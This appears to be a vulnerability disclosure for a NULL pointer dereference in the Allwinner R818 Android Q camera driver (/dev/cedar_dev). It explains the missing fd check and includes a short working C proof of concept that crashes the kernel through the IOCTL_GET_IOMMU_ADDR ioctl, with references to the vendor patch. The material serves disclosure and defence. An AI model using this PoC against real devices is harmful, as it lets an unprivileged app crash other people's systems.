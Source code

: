 ## Background
Allwinner R818 SoC is made for smart speakers with a screen which is a processor for use in Android-based
It integrates quad-core 64-bit CortexTM-A53 CPU and Imagination PowerVR GE8300 GPU to ensure response rapidity and
running smoothness for daily application, such as on-line video, web browsing, and so on

## Description
There is a NULL Pointer Deference in the camera driver "/dev/cedar_dev". An third-app could use the ioctl cmd "IOCTL_GET_IOMMU_ADDR"to cause a system crash.

## Affect Versions
Soc: Allwinner R818 

System: R818 Android Q 

SDK Version: V1.0 

## POC
The problem code is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021015-5f952b84-0027-445b-aea6-877f01378364.png)

The param sUserIommuParam are from userspace which could use ioctl cmd "IOCTL_GET_IOMMU_ADDR" to pass to driver. The code do not judge if the pVeIommuBuf->fd are valid and the function dma_buf_get will return Null if the pVeIommuBuf->fd is invalid.

The POC is as follow:
```
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "cedar_ve.h"

struct VE_PROC_INFO {
    unsigned char   channel_id;
    unsigned int    proc_info_len;
};

struct cedarv_env_infomation_compat {
    unsigned int phymem_start;
    int  phymem_total_size;
    int  address_macc;
};

struct user_iommu_param {
    int             fd;
    unsigned int    iommu_addr;
};

#define DEV_NAME                     "/dev/cedar_dev"

int main(){
    int fd = open(DEV_NAME, O_RDONLY, 0);
    int ret = 0;
    if (fd <= 0) {
        printf("open %s failed \n", DEV_NAME);
        return -1;
    }
        // IOCTL_GET_IOMMU_ADDR
        struct user_iommu_param user_iommu_param;
        user_iommu_param.fd = 0;
        user_iommu_param.iommu_addr = 0xffff;
        ret =  ioctl(fd, IOCTL_GET_IOMMU_ADDR, &user_iommu_param);
        if (ret < 0) {
            printf("IOCTL_GET_IOMMU_ADDR Error!!\n");
            return -1;
        } else {
            printf("IOCTL_GET_IOMMU_ADDR Succeed!!\n");
        }
    return 0;
}

```

The crash log is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021450-f5dc253f-7ca5-436a-a811-39086a667533.png)

![image](https://user-images.githubusercontent.com/13774458/129021466-a58f312a-3bcb-494f-a292-2b8d3cbf8273.png)

Could see the crash is locate in "compat_cedardev_ioctl"

## Patch
The patch of Allwinner is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021613-1a935512-36aa-43e6-a165-3a2e3bb3fc53.png)


## References
https://www.cnvd.org.cn/flaw/show/CNVD-2021-49170

https://vul.wangan.com/a/CNVD-2021-49170

https://www.allwinnertech.com/index.php?c=product&a=index&id=92
